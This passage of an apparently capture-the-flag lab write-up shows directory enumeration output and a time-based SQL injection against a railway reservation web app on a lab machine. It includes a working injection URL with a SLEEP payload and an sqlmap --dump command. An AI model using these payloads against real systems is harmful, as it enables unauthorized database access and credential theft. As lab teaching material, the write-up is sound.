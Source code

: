 ```bash
200      GET        1l      219w     1660c http://10.10.23.251:873/rail/welcome.html
200      GET       56l      425w    37063c http://10.10.23.251:873/rail/uploads/logo-1641351863.png
200      GET      149l      958w    71028c http://10.10.23.251:873/rail/uploads/avatar-1.png
200      GET      121l      799w    75803c http://10.10.23.251:873/rail/uploads/avatar-4.png
500      GET        1l        2w       15c http://10.10.23.251:873/rail/admin/home.php
```

- _secret.txt:_

If we visit the page there is our first rabbithole `Do you really think it is this easy?`

- _/rail:_

Rail folder seems more interesting:

![rail](./pics/rail.png)

There is a login page, we don't have any credentials but a quick search on google `Online Railway Reservation System vuln` made it possible to find this [POC](https://www.exploit-db.com/exploits/50646) an SQLI time based 

We can test it by navigating to this URL: `http://<ip machine>:873/rail/?page=reserve&sid=1%27)%20AND%20(SELECT%206842%20FROM%20(SELECT(SLEEP(5)))UsWr)%20AND%20(%27WBCm%27=%27WBCm`,there should be a 5 seconds delay, we can automate the SQLI via sqlmap tool:
```bash
sqlmap 'http://10.10.23.251:873/rail/?page=reserve&sid=1*' --batch --dump
```
After some time spent to wait sqlmap, it prompts some creds but they're useless. It was another rabbithole

> Trust me I spent like an hour 

### 8820:

Also this time we have an Apache webpage

Feroxbuster:
```bash
feroxbuster -u http://10.10.23.251:8820/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,bak,py,js,html,pdf

200      GET       15l       74w     6147c http://10.10.23.251:8820/icons/ubuntu-logo.png
200      GET      375l      964w    10918c http://10.10.23.251:8820/
200      GET      375l      964w    10918c http://10.10.23.251:8820/index.html
301      GET        9l       28w      319c http://10.10.23.251:8820/learn => http://10.10.23.251:8820/learn/
200      GET        1l        1w        5c http://10.10.23.251:8820/learn/login.php
200      GET      203l      532w     4359c http://10.10.23.251:8820/learn/admin/assets/styles.css
200      GET       72l       89w     1067c http://10.10.23.251:8820/learn/admin/bootstrap/css/print.css
```